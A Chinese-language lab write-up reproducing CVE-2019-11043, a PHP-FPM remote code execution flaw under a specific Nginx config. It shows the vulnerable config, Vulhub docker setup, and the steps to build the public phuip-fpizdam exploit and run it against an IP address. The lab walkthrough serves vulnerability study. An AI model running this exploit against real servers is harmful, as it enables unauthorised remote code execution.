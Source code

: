 <!-- TOC -->

- [[CVE-2019-11043]PHP-FPM在Nginx特定配置下远程代码执行漏洞复现](#cve-2019-11043php-fpm在nginx特定配置下远程代码执行漏洞复现)
    - [漏洞概述](#漏洞概述)
    - [漏洞影响范围](#漏洞影响范围)
    - [漏洞复现](#漏洞复现)

<!-- /TOC -->
# [CVE-2019-11043]PHP-FPM在Nginx特定配置下远程代码执行漏洞复现
## 漏洞概述
在2019年9 月 14 日至 18 举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

Nginx 上 fastcgi_split_path_info 在处理带有 %0a 的请求时，会因为遇到换行符 \n 导致 PATH_INFO 为空。而 php-fpm 在处理 PATH_INFO 为空的情况下，存在逻辑缺陷。攻击者通过精心的构造和利用，可以导致远程代码执行。

漏洞编号：CVE-2019-11043

漏洞 PoC 在 10 月 22 日公开。


## 漏洞影响范围

**PHP 5.6-7.x**

Nginx + php-fpm 的服务器，在使用如下配置的情况下，都可能存在远程代码执行漏洞。

```
 location ~ [^/]\.php(/|$) {

        fastcgi_split_path_info ^(.+?\.php)(/.*)$;

        fastcgi_param PATH_INFO       $fastcgi_path_info;

        fastcgi_pass   php:9000;

        ...
  }
}
```

## 漏洞复现
复现用的是[Vulhub](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)靶场，配合Go环境。

基于**Ubuntu 18.04**的漏洞环境部署如下：
```
apt-get install docker
service docker start
apt-get install python3-pip
pip3 install docker-compose

wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
apt-get install unzip
unzip vulhub-master.zip
cd vulhub-master

cd PHP/CVE-2019-11043
docker-compose up -d
```

基于**Windows 10**的Go环境的漏洞利用工具部署如下:
下载安装[Golang](https://dl.google.com/go/go1.13.3.windows-amd64.msi)后，
```
git clone https://github.com/neex/phuip-fpizdam #或浏览器下：https://github.com/neex/phuip-fpizdam/archive/master.zip
cd phuip-fpizdam
go get -v
go build 就会生成:phuip-fpizdam.exe

phuip-fpizdam.exe http://144.202.102.252:8080/index.php
```

![](https://www.github.com/52stu/Images/raw/master/xsj/1571888349020.png)

